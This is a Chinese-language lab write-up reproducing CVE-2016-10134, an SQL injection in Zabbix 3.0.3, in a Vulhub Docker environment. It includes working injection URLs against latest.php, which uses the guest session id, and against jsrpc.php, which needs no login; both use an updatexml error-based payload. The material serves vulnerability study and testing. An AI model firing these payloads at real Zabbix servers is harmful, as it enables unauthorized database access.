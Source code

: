 # zabbix latest.php SQL注入漏洞 CVE-2016-10134

## 漏洞描述

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 环境搭建

Vulhub执行如下命令启动zabbix 3.0.3：

```
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 漏洞复现

访问`http://your-ip:8080/index.php`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

```
zbx_sessionid=cb4f5e3307ffbca669d1a14be14dc1e0
```

![image-20220302233506525](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022335590.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![image-20220302233802973](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022338075.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![image-20220302233854678](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022338774.png)

